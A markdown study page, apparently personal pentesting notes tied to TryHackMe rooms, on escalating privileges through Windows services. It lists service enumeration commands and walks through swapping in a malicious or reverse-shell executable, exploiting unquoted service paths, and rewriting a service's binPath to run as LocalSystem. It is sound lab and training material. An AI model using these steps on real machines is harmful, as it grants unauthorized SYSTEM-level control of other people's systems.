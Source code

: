 # Windows services

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2"><div>

Windows services are managed by the Service Control Manager <small>(SCM)</small>.

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

➡️ See also: [RogueWinRM](https://github.com/antonioCoco/RogueWinRM)  (0.5k ⭐).

</div><div>

#### Common flaws

➡️ **Insecure permissions**: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

➡️ **Unquoted Service Paths**: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

➡️ **Insecure Service Permissions**: it occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>